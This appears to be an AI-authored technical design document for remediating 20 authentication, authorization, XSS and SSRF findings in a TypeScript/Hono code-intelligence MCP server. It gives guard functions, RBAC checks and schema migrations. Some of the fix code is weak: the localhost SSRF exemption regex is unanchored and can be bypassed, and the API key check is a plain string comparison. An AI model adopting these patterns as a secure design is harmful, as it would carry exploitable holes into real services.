

# Technical Design Document (TDD)

## Code Intelligence MCP Server — SA4E-55: Security: Fix Authentication/Authorization Vulnerabilities in Backend API

---

## Document Information

| Field | Value |
|-------|-------|
| Jira Ticket | SA4E-55 |
| Title | Security: Fix authentication/authorization vulnerabilities in backend API |
| Author | SA Agent |
| Version | 1.0 |
| Date | 2026-07-23 |
| Status | Draft |
| Related BRD | BRD-v1-SA4E-55.docx |
| Related FSD | FSD-v1-SA4E-55.docx |

---

## Author Tracking

| Role | Name - Position | Responsibility |
|------|-----------------|----------------|
| Author | SA Agent – Solution Architect | Create document |
| Peer Reviewer | BA Agent – Business Analyst | Review document |

---

## Revision History

| Version | Date | Author | Changes |
|---------|------|--------|---------|
| 1.0 | 2026-07-23 | SA Agent | Initial TDD — derived from FSD SA4E-55 v1.0 covering 20 security findings F-01 to F-20 |

---

## Sign-Off

| Name | Signature and date |
|------|--------------------|
| | ☐ I agree and confirm the technical design in this TDD |
| | ☐ I agree and confirm the technical design in this TDD |

---

## 1. Introduction

> **Scope Boundary:** This TDD specifies HOW to implement the security remediations defined in FSD SA4E-55. It does NOT repeat functional requirements, business rules, or use cases — refer to FSD for those. This document focuses on: authentication/authorization middleware architecture, per-file implementation patterns, TypeScript API contracts, security design patterns, and database migration specifics.

### 1.1 Purpose

This TDD designs the technical implementation to remediate 20 security findings (F-01 to F-20) in the Code Intelligence MCP Server backend. The findings cover unauthenticated endpoints, identity spoofing, XSS via token injection, privilege escalation on graph sync, missing SSRF protection on outbound HTTP, and workspace data leakage across users.

### 1.2 Scope

11 files are modified across the Hono-based backend:

| # | File | Change Summary |
|---|------|---------------|
| 1 | `backend/src/server/routes/api-index.ts` | Add `requireAuth()` guard on all 3 index endpoints |
| 2 | `backend/src/server/routes/database.ts` | Add `requireDatabaseAuth()` guard |
| 3 | `backend/src/server/routes/admin/database.ts` | Add `authGuard()` (auth + CONFIG_EDIT) |
| 4 | `backend/src/server/routes/admin/static.ts` | XSS token sanitization |
| 5 | `backend/src/server/routes/admin/kb-graph.ts` | Elevate GRAPH_VIEW to RBAC_MANAGE for sync |
| 6 | `backend/src/server/routes/admin/config.ts` | Add CONFIG_EDIT check on LLM endpoints |
| 7 | `backend/src/server/routes/admin/index.ts` | Workspace data isolation via created_by filter |
| 8 | `backend/src/server/routes/tools.ts` | resolveCallerIdentity() + RBAC filter on list |
| 9 | `backend/src/admin/db/schema.ts` | Add created_by column migration |
| 10 | `backend/src/database/repositories/GraphRepository.ts` | registerProject() with createdBy param |
| 11 | `backend/src/database/repositories/interfaces.ts` | Interface update for registerProject |

### 1.3 Technology Stack

| Layer | Technology | Version |
|-------|-----------|---------|
| Language | TypeScript | 5.x |
| HTTP Framework | Hono | 4.x |
| Runtime | Node.js | 20.x LTS |
| Database (admin) | better-sqlite3 | 9.x |
| Schema Validation | Zod | 3.x |
| JWT | HMAC-SHA256 (native crypto) | Node 20 built-in |
| Session Store | SQLite sessions table | — |
| RBAC Store | SQLite group_permissions table | — |

### 1.4 Design Principles

- **Fail-closed** — authentication/permission errors deny access, never bypass to business logic
- **Defense in depth** — each route independently validates auth, not relying on upstream middleware
- **Interface Segregation** — small, focused helper functions per module
- **No trust of client-supplied identity** — X-User-Id header demoted to dev-mode fallback only
- **Minimal surface change** — wrap existing route handlers, do not refactor business logic

### 1.5 Constraints

- Must preserve backward compatibility for IDE extensions already using session tokens
- `CODE_INTEL_REQUIRE_AUTH` env flag allows gradual auth rollout
- Auth overhead target: < 5ms per request (indexed SQLite lookup + in-process HMAC)
- No new npm dependencies — use only existing: `hono`, `zod`, `better-sqlite3`, Node built-in `crypto`

### 1.6 References

| Document | Location |
|----------|----------|
| BRD | BRD-v1-SA4E-55.docx |
| FSD | FSD-v1-SA4E-55.docx |
| Security Audit | documents/SECURITY-AUTH-AUDIT.md |
| Architecture | .code-intel/SA4E-ARCHITECTURE.md |

---
## 2. System Architecture

### 2.1 Architecture Overview

The authentication/authorization layer is implemented as **in-route middleware wrappers** — lightweight async functions called at the top of each Hono route handler, before any business logic executes. There is no global Hono middleware; each route file owns its own auth gate.


**Three auth helper patterns are used:**

| Helper | Used In | Behavior |
|--------|---------|----------|
| `requireAuth(c)` | `api-index.ts` | Validates session token → returns `{userId}` or null |
| `requireDatabaseAuth(c)` | `database.ts` (routes module) | Validates session token → returns `{userId}` or null |
| `authGuard(c)` | `admin/database.ts`, `admin/config.ts`, `admin/kb-graph.ts` | Calls `ctx.requireAuth(c)` then `ctx.requirePermission(c, userId, permission)` |
| `resolveCallerIdentity(c)` | `tools.ts` | Multi-mode: API key → session → JWT → fallback |

**Authentication pipeline per request:**

```
HTTP Request → Hono Router
  ↓
  requireAuth / requireDatabaseAuth / resolveCallerIdentity / authGuard
  ↓
  validateSession(token)  OR  verifyJwtToken(token)  OR  API-key check
  ↓
  getUserPermissions(userId)  [if RBAC check required]
  ↓
  requirePermission(userId, 'CONFIG_EDIT' | 'RBAC_MANAGE' | 'MCP_ACCESS')
  ↓
  Route Handler (business logic)
```

**Three auth modes supported:**

| Mode | How Triggered | Identity Source |
|------|-------------|-----------------|
| Session Token | `Authorization: Bearer {opaque-hex}` | `sessions` table → `userId` |
| JWT | `Authorization: Bearer {header.payload.sig}` | HMAC-SHA256 verify → `payload.sub` |
| API Key | `CODE_INTEL_API_KEY` env set + matching header | Fixed `userId = 'api-key-user'` |

### 2.2 Component Diagram



| Component | Responsibility | Technology |
|-----------|---------------|------------|
| `api-index.ts` | Source/doc indexing routes with `requireAuth()` guard | Hono, TypeScript |
| `database.ts` (routes) | DB config routes with `requireDatabaseAuth()` guard | Hono, Zod |
| `admin/database.ts` | Admin DB routes with `authGuard()` + CONFIG_EDIT | Hono, Zod |
| `admin/static.ts` | Admin SPA serving with XSS token sanitization | Hono, Node fs |
| `admin/kb-graph.ts` | KB graph routes; sync upgraded to RBAC_MANAGE | Hono |
| `admin/config.ts` | LLM/config routes with CONFIG_EDIT + SSRF guard | Hono, url-validator |
| `admin/index.ts` | Projects route with workspace data isolation | Hono, SQLite |
| `tools.ts` | MCP tool routes with `resolveCallerIdentity()` + RBAC filter | Hono, Zod |
| `schema.ts` | SQLite DDL with `created_by` migration | better-sqlite3 |
| `GraphRepository.ts` | `registerProject()` accepting `createdBy` parameter | TypeScript |
| `interfaces.ts` | `IGraphRepository.registerProject()` interface update | TypeScript |
| `admin/context.ts` | `AdminContext`: `requireAuth()`, `requirePermission()`, `checkPermission()` | TypeScript |
| `jwt-auth.ts` | JWT HMAC-SHA256 verify, `verifyJwtToken()`, `allowedProjectsFromClaims()` | Node crypto |
| `url-validator.ts` | `validateExternalUrl()` — SSRF IP range blocker | TypeScript |
| `admin-db.ts` | `validateSession()`, `getUserPermissions()` | better-sqlite3 async |

### 2.3 Deployment Architecture

Single Node.js process on port 48721. No new containers or services introduced. SQLite admin DB is file-local; auth overhead is in-process.

```
IDE Extension / Admin Browser
        |
        | HTTP (port 48721)
        ↓
  Hono HTTP Server (Node.js)
        |
   ┌────┴──────────────────────────┐
   │  Auth Layer (in-route)        │
   │  validateSession() ───────── SQLite admin.db (sessions table)
   │  verifyJwtToken() ─────────── Node crypto (HMAC-SHA256)
   │  getUserPermissions() ─────── SQLite admin.db (group_permissions)
   └────────────────────────────────┘
        |
   Route Handlers (business logic unchanged)
        |
   SQLite index.db / PostgreSQL / MySQL (optional)
```

### 2.4 Communication Patterns

| From | To | Protocol | Pattern | Description |
|------|----|----------|---------|-------------|
| IDE Extension | `/api/index/*` | REST/HTTP | Sync | Bearer token required from SA4E-55 |
| Admin Browser | `/api/admin/*` | REST/HTTP | Sync | Session token + RBAC permission check |
| IDE Extension | `/mcp/tools/*` | REST/HTTP | Sync | Session / JWT / API-key identity resolution |
| Admin Browser | `/admin` | HTTP GET | HTML | Token sanitized before localStorage injection |
| Config routes | External LLM | HTTP outbound | Sync | SSRF-protected by `validateExternalUrl()` |

---
## 3. Module/File Design

> Each subsection describes exactly what changed, why, and the key implementation details for one of the 11 modified files.

### 3.1 `backend/src/server/routes/api-index.ts` — Add `requireAuth()` Guard

**Findings addressed:** F-06, F-07, F-08

**Pattern:** Local `requireAuth()` helper function declared at module scope. Called at the top of each route handler before any body parsing.

```typescript
/** Require valid session — returns 401 if not authenticated. */
async function requireAuth(c: Context): Promise<{ userId: string } | null> {
  const auth = c.req.header('Authorization') || '';
  const token = auth.replace('Bearer ', '').trim();
  if (!token) return null;
  const session = await validateSession(token);
  return session ?? null;
}
```

**Route guard pattern:**
```typescript
app.post('/api/index/source', async (c) => {
  const session = await requireAuth(c);
  if (!session) return c.json({ error: 'Unauthorized' }, 401);
  return handleIndexSource(c, registry, logger, session.userId);
});
```

**Key design decisions:**
- `requireAuth` returns `null` (not throwing) — fail-closed without stack leak
- `session.userId` is passed as `createdBy` to `registerProjectPhase()` for audit trail
- Body is NOT parsed before auth check — prevents DoS via large payload parsing before rejection
- All 3 endpoints (`/source`, `/document`, `/documents`) use the same helper for consistency (BR-04)

### 3.2 `backend/src/server/routes/database.ts` — Add `requireDatabaseAuth()`

**Findings addressed:** F-01 to F-05

**Pattern:** Module-local `requireDatabaseAuth()` wrapper. Unlike the admin module, this route does NOT check CONFIG_EDIT permission — it only validates session presence. The admin module (`admin/database.ts`) is the CONFIG_EDIT-gated path.

```typescript
async function requireDatabaseAuth(c: Context): Promise<{ userId: string } | null> {
  const auth = c.req.header('Authorization') || '';
  const token = auth.replace('Bearer ', '').trim();
  if (!token) return null;
  return await validateSession(token) ?? null;
}
```

**Applied to all 5 routes:**
```typescript
app.get('/api/admin/database/status', async (c) => {
  if (!await requireDatabaseAuth(c)) return c.json({ error: 'Unauthorized' }, 401);
  // ... business logic
});
```

**Migrate endpoint — SSE stream only opened after auth passes:**
```typescript
app.post('/api/admin/database/migrate', async (c) => {
  if (!await requireDatabaseAuth(c)) return c.json({ error: 'Unauthorized' }, 401);
  // Zod validation next, then streamSSE(...)
});
```
This satisfies BR-08: the SSE stream is never opened for unauthenticated callers.

### 3.3 `backend/src/server/routes/admin/database.ts` — Add `authGuard()` + CONFIG_EDIT

**Findings addressed:** F-18, F-19, F-20

**Pattern:** Uses `AdminContext.requireAuth()` + `AdminContext.requirePermission()` composed into a local `authGuard()` helper:

```typescript
async function authGuard(c: any): Promise<Response | null> {
  const user = await ctx.requireAuth(c);
  if (user instanceof Response) return user;
  const perm = await ctx.requirePermission(c, user.userId, 'CONFIG_EDIT');
  if (perm instanceof Response) return perm;
  return null;
}
```

**Applied pattern:**
```typescript
app.get('/api/admin/database/status', async (c) => {
  const deny = await authGuard(c); if (deny) return deny;
  // ... business logic
});
```

**New endpoint: `POST /api/admin/database/validate-schema`** (Finding F-20):
- Validates DB schema compatibility before migration
- Same `authGuard()` pattern
- Checks existence of 19 required tables, returns `{ schemaReady, missing[] }`

### 3.4 `backend/src/server/routes/admin/static.ts` — XSS Token Sanitization

**Finding addressed:** F-13

**Vulnerability:** Raw `token` query param injected into HTML `<script>` block without sanitization.

**Fix:**
```typescript
if (token) {
  // SEC: sanitize token — only allow alphanumeric, dash, dot, underscore to prevent XSS
  const safeToken = token.replace(/[^A-Za-z0-9\-_.]/g, '');
  if (safeToken.length > 0) {
    const injectScript = '<script>localStorage.setItem("admin_token","' + safeToken + '");</script>';
    html = html.replace('</head>', injectScript + '</head>');
  }
}
```

**Design decisions:**
- Regex `/[^A-Za-z0-9\-_.]/g` strips all chars not matching the allowlist (BR-17)
- Empty sanitized token → no `<script>` block injected (BR-18) — page loads normally
- No HTTP error returned — silent sanitization (BR-19, UX: admin still sees page and can log in)
- Allowlist covers all valid session token characters (hex strings) and JWT characters (base64url + dots)

### 3.5 `backend/src/server/routes/admin/kb-graph.ts` — GRAPH_VIEW → RBAC_MANAGE

**Finding addressed:** F-17

**Vulnerability:** `POST /api/admin/kb/graph/sync` required only `GRAPH_VIEW` (read-only), allowing read-only users to trigger a destructive graph reset.

**Before:**
```typescript
const permCheck = await ctx.requirePermission(c, user.userId, 'GRAPH_VIEW');
```

**After:**
```typescript
// SEC: graph sync resets the entire graph — requires RBAC_MANAGE (admin-only), not user KB_WRITE
const permCheck = await ctx.requirePermission(c, user.userId, 'RBAC_MANAGE');
```

**Note:** Read endpoints (`GET /api/admin/kb/graph`, `GET /api/admin/kb/graph/cluster/:id`) retain `KB_READ` permission — only the destructive sync is elevated.

### 3.6 `backend/src/server/routes/admin/config.ts` — CONFIG_EDIT on LLM Endpoints

**Findings addressed:** F-14, F-15

**Vulnerability:** `GET /api/admin/llm/models` and `POST /api/admin/llm/test` had auth but no permission check, allowing any authenticated user to trigger outbound HTTP to LLM servers.

**Fix pattern:**
```typescript
app.get('/api/admin/llm/models', async (c) => {
  const user = await ctx.requireAuth(c);
  if (user instanceof Response) return user;
  // SEC: LLM model listing triggers outbound HTTP — require CONFIG_EDIT
  const permCheck = await ctx.requirePermission(c, user.userId, 'CONFIG_EDIT');
  if (permCheck instanceof Response) return permCheck;
  // ... outbound fetch
});
```

**SSRF protection for `/llm/test`:**
```typescript
const isLocalUrl = /^https?:\/\/(localhost|127\.0\.0\.1)(:\d+)?/i.test(base);
if (llm.baseUrl && llm.baseUrl !== 'http://localhost:11434' && !isLocalUrl) {
  const urlCheck = validateExternalUrl(base);
  if (!urlCheck.valid) return c.json({ success: false, message: `SSRF blocked: ${urlCheck.error}` }, 400);
}
```

**API key masking:**
```typescript
apiKey: process.env.LLM_API_KEY ? '***' : '',
```
This ensures `GET /api/admin/config` never exposes the real LLM API key in responses (BR-23).

### 3.7 `backend/src/server/routes/admin/index.ts` — Workspace Data Isolation

**Finding addressed:** F-16

**Vulnerability:** `GET /api/admin/projects` returned all rows from `project_registry`, leaking cross-user data.

**Fix — RBAC_MANAGE-based branching:**
```typescript
app.get('/api/admin/projects', async (c) => {
  const user = await ctx.requireAuth(c);
  if (user instanceof Response) return user;
  try {
    const adapter = getAdminAdapter();
    const rbacCheck = await ctx.requirePermission(c, user.userId, 'RBAC_MANAGE');
    const isAdmin = !(rbacCheck instanceof Response);
    const rows = isAdmin
      ? await adapter.allAsync(
          'SELECT ... FROM project_registry ORDER BY last_seen DESC LIMIT 100'
        )
      : await adapter.allAsync(
          'SELECT ... FROM project_registry WHERE created_by = ? OR created_by = ? ORDER BY last_seen DESC LIMIT 100',
          [user.userId, user.username ?? '']
        );
    return c.json({ projects: rows });
  } catch {
    return c.json({ projects: [] });
  }
});
```

**Design decisions:**
- `RBAC_MANAGE` check returns a `Response` on failure — `instanceof Response` used to branch (not throw)
- Regular users query by `created_by = userId OR created_by = username` to handle both ID-based and name-based creation (legacy compatibility)
- Empty array (not 403) returned when user has no workspaces (BR-27)
- Limit 100 rows max for both admin and regular user paths

### 3.8 `backend/src/server/routes/tools.ts` — `resolveCallerIdentity()` + RBAC Filter

**Findings addressed:** F-09, F-10

**`resolveCallerIdentity()` — multi-mode auth resolution:**
```typescript
async function resolveCallerIdentity(c: Context): Promise<{ userId: string; apiKey: boolean } | null> {
  // 1. API Key mode (env-configured)
  if (isApiKeyAuthEnabled()) {
    const envKey = process.env.CODE_INTEL_API_KEY || '';
    const provided = token || apiKeyHeader;
    if (!provided || provided !== envKey) return null;
    return { userId: 'api-key-user', apiKey: true };
  }
  // 2. Session token
  if (token) {
    const session = await validateSession(token);
    if (session) return { userId: session.userId, apiKey: false };
    // 3. JWT
    const { valid, payload } = await verifyJwtToken(token);
    if (valid && payload?.sub) return { userId: String(payload.sub), apiKey: false };
  }
  return null;
}
```

**`GET /mcp/tools/list` — auth + RBAC filter:**
```typescript
app.get('/mcp/tools/list', async (c) => {
  const caller = await resolveCallerIdentity(c);
  if (!caller) return c.json({ error: { code: 'UNAUTHORIZED', ... } }, 401);
  let tools = router.listTools();
  if (!caller.apiKey && caller.userId !== 'api-key-user') {
    const permissions = await getUserPermissions(caller.userId);
    const mcpAccess = permissions.find(p => p.permissionId === 'MCP_ACCESS');
    if (!mcpAccess) return c.json({ tools: [] });  // No access → empty list (not 403)
    // Apply toolAccess filter from roleData if present
  }
  return c.json({ tools });
});
```

**`POST /mcp/tools/call` — reserved key stripping + X-User-Id demotion:**
```typescript
// 1. Strip reserved client-supplied keys UNCONDITIONALLY
stripReservedKeys(args);
// 2. Stamp verified identity
await stampUserId(c, args, logger);
// 3. Verify JWT project binding
const bindingError = await verifyProjectBinding(c, requestedProject, logger);
if (bindingError) return c.json({ error: { code: 'FORBIDDEN', message: bindingError } }, 403);
// 4. Stamp trusted project scope
stampProjectScope(c, args, logger);
```

`X-User-Id` accepted as fallback ONLY when `resolveCallerIdentity()` returns null AND `isApiKeyAuthEnabled()` is false (dev mode). WARNING logged. (BR-13)

### 3.9 `backend/src/admin/db/schema.ts` — `created_by` Column Migration

**Finding addressed:** F-16 (data model support)

**Migration pattern — idempotent `ALTER TABLE`:**
```typescript
// Idempotent migration: add created_by to project_registry for ownership-based visibility
try {
  db.exec(`ALTER TABLE project_registry ADD COLUMN created_by TEXT NOT NULL DEFAULT ''`);
} catch { /* column already exists */ }
```

**Table definition (full):**
```sql
CREATE TABLE IF NOT EXISTS project_registry (
  project_id     TEXT PRIMARY KEY,
  display_name   TEXT NOT NULL DEFAULT '',
  workspace_path TEXT NOT NULL DEFAULT '',
  last_seen      TEXT NOT NULL DEFAULT (datetime('now'))
);
-- idempotent: adds created_by TEXT NOT NULL DEFAULT ''
```

**Migration behavior:**
- New installs: column created with `DEFAULT ''` (empty string sentinel)
- Existing installs: `ALTER TABLE` adds column; existing rows get `created_by = ''`
- Regular users querying `WHERE created_by = userId OR created_by = username` will NOT see legacy rows (empty string ≠ userId)
- Admins with `RBAC_MANAGE` see all rows regardless (including legacy)

### 3.10 `backend/src/database/repositories/GraphRepository.ts` — `registerProject()` with `createdBy`

**Finding addressed:** F-06, F-16 (data trail)

**Interface signature update:**
```typescript
async registerProject(
  projectId: string,
  displayName: string,
  workspacePath: string,
  createdBy = ''          // NEW parameter — defaults to '' for backward compat
): Promise<void>
```

**SQLite upsert (INSERT OR REPLACE style):**
```sql
INSERT INTO project_registry (project_id, display_name, workspace_path, created_by, last_seen)
VALUES (?, ?, ?, ?, datetime('now'))
ON CONFLICT(project_id) DO UPDATE SET
  display_name = excluded.display_name,
  workspace_path = excluded.workspace_path,
  last_seen = datetime('now')
-- NOTE: created_by is NOT updated on conflict — first registration wins
```

**PostgreSQL variant:**
```sql
INSERT INTO project_registry (project_id, display_name, workspace_path, created_by, last_seen)
VALUES ($1, $2, $3, $4, current_timestamp)
ON CONFLICT(project_id) DO UPDATE SET
  display_name = EXCLUDED.display_name,
  workspace_path = EXCLUDED.workspace_path,
  last_seen = current_timestamp
```

**Key design decision:** `created_by` is NOT updated on conflict. First registration wins — prevents a subsequent caller from claiming ownership of an existing project.

### 3.11 `backend/src/database/repositories/interfaces.ts` — Interface Update

**Finding addressed:** F-16 (interface contract)

**Updated `IGraphRepository` signature:**
```typescript
export interface IGraphRepository {
  getNodeCounts(projectId: string): Promise<GraphNodeCounts>;
  resetGraph(): Promise<void>;
  upsertNode(params: UpsertNodeParams): Promise<void>;
  /** Register/update a project in project_registry. createdBy is optional for backward compat. */
  registerProject(
    projectId: string,
    displayName: string,
    workspacePath: string,
    createdBy?: string      // Optional with default ''
  ): Promise<void>;
}
```

---
## 4. API Design

> All endpoints below are implemented in the Hono-based backend. TypeScript request/response types are shown. Full business rules are in FSD §3-5.

### 4.1 API Overview — All 18 Secured Endpoints

| # | Endpoint | Method | Auth Required | Permission | Finding |
|---|----------|--------|--------------|------------|---------|
| 1 | /api/index/source | POST | Bearer/API-Key | — | F-06 |
| 2 | /api/index/document | POST | Bearer/API-Key | — | F-07 |
| 3 | /api/index/documents | POST | Bearer/API-Key | — | F-08 |
| 4 | /api/admin/database/status (routes) | GET | Bearer | — | F-01 |
| 5 | /api/admin/database/test-connection (routes) | POST | Bearer | — | F-02 |
| 6 | /api/admin/database/migrate (routes) | POST | Bearer | — | F-03 |
| 7 | /api/admin/database/migrate/cancel (routes) | POST | Bearer | — | F-04 |
| 8 | /api/admin/database/switch-to-sqlite (routes) | POST | Bearer | — | F-05 |
| 9 | /mcp/tools/list | GET | Bearer/JWT/API-Key | MCP_ACCESS* | F-09 |
| 10 | /mcp/tools/call | POST | Bearer/JWT/API-Key | — | F-10 |
| 11 | /admin | GET | — (XSS sanitize) | — | F-13 |
| 12 | /api/admin/llm/models | GET | Bearer | CONFIG_EDIT | F-14 |
| 13 | /api/admin/llm/test | POST | Bearer | CONFIG_EDIT | F-15 |
| 14 | /api/admin/projects | GET | Bearer | RBAC_MANAGE** | F-16 |
| 15 | /api/admin/kb/graph/sync | POST | Bearer | RBAC_MANAGE | F-17 |
| 16 | /api/admin/database/status (admin) | GET | Bearer | CONFIG_EDIT | F-18 |
| 17 | /api/admin/database/test-connection (admin) | POST | Bearer | CONFIG_EDIT | F-19 |
| 18 | /api/admin/database/validate-schema | POST | Bearer | CONFIG_EDIT | F-20 |

*MCP_ACCESS: absent → returns `{ tools: [] }` not 403
**RBAC_MANAGE: absent → returns scoped results, not 403

---

### 4.2 TypeScript Request/Response Types

```typescript
// ─── INDEX ENDPOINTS ───────────────────────────────────────────────────────

// POST /api/index/source
interface IndexSourceRequest {
  files: Array<{ path: string; content: string }>;
}
interface IndexSourceResponse {
  written: number;
  rejected: string[];
  reindexTriggered: boolean;
  projectId: string;
}

// POST /api/index/document
interface IndexDocumentRequest {
  path: string;
  content: string;
}
interface IndexDocumentResponse {
  success: boolean;
}

// POST /api/index/documents
interface IndexDocumentsRequest {
  files: Array<{ path: string; content: string }>;
}
interface IndexDocumentsResponse {
  indexed: number;
  rejected: string[];
}

// ─── DATABASE ENDPOINTS ───────────────────────────────────────────────────

// Connection schema (shared by test-connection, migrate, validate-schema)
interface ConnectionParams {
  engine: 'postgresql' | 'mysql';
  host: string;
  port: number;       // 1-65535
  username: string;
  password: string;
  database: string;
  ssl?: boolean;      // default false
}

// GET /api/admin/database/status
interface DatabaseStatusResponse {
  success: boolean;
  data: {
    engine: 'sqlite' | 'postgresql' | 'mysql';
    status: 'connected';
    lastMigration: string | null;
  };
}

// POST /api/admin/database/test-connection
type TestConnectionRequest = ConnectionParams;
interface TestConnectionResponse {
  success: boolean;
  data?: {
    connected: boolean;
    serverVersion: string;
    existingTables: number;
    latencyMs: number;
  };
  error?: { code: string; message: string };
}

// POST /api/admin/database/validate-schema
type ValidateSchemaRequest = ConnectionParams;
interface ValidateSchemaResponse {
  success: boolean;
  data: {
    schemaReady: boolean;
    totalRequired: number;
    found: number;
    missing: string[];
    existingTables: number;
    message: string;
  };
}

// POST /api/admin/database/migrate — streams SSE events
interface MigrationProgressEvent {
  phase: 'tables' | 'rows' | 'complete' | 'error';
  table?: string;
  rowsCopied?: number;
  totalTables?: number;
  success?: boolean;
}

// ─── MCP TOOL ENDPOINTS ──────────────────────────────────────────────────

// GET /mcp/tools/list
interface ToolListResponse {
  tools: Array<{
    name: string;
    description: string;
    inputSchema: Record<string, unknown>;
  }>;
}

// POST /mcp/tools/call
interface ToolCallRequest {
  tool_name: string;
  arguments: Record<string, unknown>;
  // NOTE: __userId, __projectId, __workspaceRoot are stripped server-side before processing
}
interface ToolCallResponse {
  content: Array<{ type: 'text'; text: string }>;
}

// ─── ADMIN PORTAL ─────────────────────────────────────────────────────────

// GET /admin?token=&page=&embed=
// Response: HTML (200), script block with sanitized token if present

// GET /api/admin/llm/models
interface LlmModelsResponse {
  models: Array<{ id: string; name: string }>;
  provider: string;
  error?: string;
}

// POST /api/admin/llm/test
interface LlmTestResponse {
  success: boolean;
  message: string;
  latencyMs?: number;
}

// GET /api/admin/projects
interface ProjectsResponse {
  projects: Array<{
    project_id: string;
    display_name: string;
    workspace_path: string;
    last_seen: string;  // ISO 8601
  }>;
}

// POST /api/admin/kb/graph/sync
interface GraphSyncResponse {
  status: 'sync_started';
  message: string;
}

// ─── ERROR RESPONSES ──────────────────────────────────────────────────────

interface ApiError {
  error: string | { code: string; message: string };
}
// HTTP 401: { "error": "Unauthorized" }
// HTTP 403: { "error": "Forbidden: missing permission CONFIG_EDIT" }
// HTTP 400: { "success": false, "error": { "code": "VALIDATION", "message": "..." } }
```

---
## 5. Database Design

### 5.1 Schema Overview

Two tables are modified by SA4E-55. Both use idempotent `ALTER TABLE` migrations so the server can upgrade existing installations without data loss.

### 5.2 DDL — `project_registry` Table with `created_by`

```sql
-- Base table (created on first install — SA4E-50)
CREATE TABLE IF NOT EXISTS project_registry (
  project_id     TEXT PRIMARY KEY,
  display_name   TEXT NOT NULL DEFAULT '',
  workspace_path TEXT NOT NULL DEFAULT '',
  last_seen      TEXT NOT NULL DEFAULT (datetime('now'))
);

-- SA4E-55: idempotent migration — add ownership column
-- Existing rows get created_by = '' (empty sentinel)
-- On conflict upsert does NOT overwrite created_by (first registration wins)
ALTER TABLE project_registry ADD COLUMN created_by TEXT NOT NULL DEFAULT '';

CREATE INDEX IF NOT EXISTS idx_project_registry_seen ON project_registry(last_seen);
```

**Column purpose:**
| Column | Type | Purpose |
|--------|------|---------|
| `project_id` | TEXT PK | UUID — workspace identifier |
| `display_name` | TEXT | Human-readable workspace name |
| `workspace_path` | TEXT | Absolute path to workspace dir |
| `last_seen` | TEXT (ISO) | Last activity — used for sorting |
| `created_by` | TEXT (NEW) | `userId` or `username` of registering user |

### 5.3 Migration Plan

| Order | Change | Description | Rollback |
|-------|--------|-------------|----------|
| 1 | `ALTER TABLE project_registry ADD COLUMN created_by TEXT NOT NULL DEFAULT ''` | Add ownership column | Drop column (manual) |
| 2 | No data backfill needed | Existing rows get `''`; admins see all; regular users see none of old rows | N/A |

**Upgrade safety:**
- `CREATE TABLE IF NOT EXISTS` — no-op if table already exists
- `ALTER TABLE ... ADD COLUMN` wrapped in `try/catch` — no-op if column exists
- No locking or downtime required — SQLite ALTER TABLE is instant

### 5.4 Query Patterns

| Operation | Query Pattern | Note |
|-----------|--------------|------|
| Admin list all | `SELECT ... FROM project_registry ORDER BY last_seen DESC LIMIT 100` | RBAC_MANAGE users |
| User scoped list | `SELECT ... FROM project_registry WHERE created_by = ? OR created_by = ? ORDER BY last_seen DESC LIMIT 100` | Params: `[userId, username]` |
| Register/upsert | `INSERT ... ON CONFLICT(project_id) DO UPDATE SET display_name, workspace_path, last_seen` | created_by NOT updated |
| Index lookup | `idx_project_registry_seen` on `last_seen` | Sort performance |

---

## 6. Class / Module Design

### 6.1 Package Structure

```
backend/src/
├── server/
│   ├── routes/
│   │   ├── api-index.ts          # requireAuth() — F-06/07/08
│   │   ├── database.ts           # requireDatabaseAuth() — F-01/03/04/05
│   │   ├── tools.ts              # resolveCallerIdentity() + RBAC — F-09/10
│   │   └── admin/
│   │       ├── context.ts        # AdminContext: requireAuth/requirePermission
│   │       ├── config.ts         # CONFIG_EDIT + SSRF — F-14/15
│   │       ├── database.ts       # authGuard() CONFIG_EDIT — F-18/19/20
│   │       ├── index.ts          # Projects isolation — F-16
│   │       ├── kb-graph.ts       # RBAC_MANAGE sync — F-17
│   │       └── static.ts         # XSS sanitize — F-13
│   └── middleware/
│       ├── jwt-auth.ts           # verifyJwtToken(), allowedProjectsFromClaims()
│       ├── api-key-auth.ts       # isApiKeyAuthEnabled()
│       └── url-validator.ts      # validateExternalUrl() — SSRF protection
├── admin/
│   └── db/
│       └── schema.ts             # created_by migration — F-16 data model
└── database/
    └── repositories/
        ├── GraphRepository.ts    # registerProject(createdBy) — F-06/16
        └── interfaces.ts         # IGraphRepository.registerProject interface
```

### 6.2 Key Interfaces

```typescript
// IGraphRepository — updated for SA4E-55
interface IGraphRepository {
  getNodeCounts(projectId: string): Promise<GraphNodeCounts>;
  resetGraph(): Promise<void>;
  upsertNode(params: UpsertNodeParams): Promise<void>;
  registerProject(
    projectId: string,
    displayName: string,
    workspacePath: string,
    createdBy?: string    // optional — defaults to '' for backward compat
  ): Promise<void>;
}

// AdminContext — key auth methods
interface AdminContext {
  requireAuth(c: Context): Promise<UserSession | Response>;
  checkPermission(userId: string, permission: string): Promise<{ has: boolean; roleData: Record<string, unknown> }>;
  requirePermission(c: Context, userId: string, permission: string): Promise<{ roleData: Record<string, unknown> } | Response>;
}

// Auth resolution result
interface CallerIdentity {
  userId: string;
  apiKey: boolean;    // true if authenticated via API key
}

// Session (from validateSession)
interface UserSession {
  userId: string;
  username: string;
  accessGroupId: string;
}
```

### 6.3 Design Patterns

| Pattern | Where Used | Rationale |
|---------|-----------|-----------|
| Fail-closed guard function | `requireAuth()`, `requireDatabaseAuth()`, `authGuard()` | Returns null/Response on failure; business logic never reached |
| Strategy (auth mode selection) | `resolveCallerIdentity()` | API-key → session → JWT → fallback, each mode isolated |
| Decorator-lite | Auth check before handler | Route handlers unchanged; security wraps them |
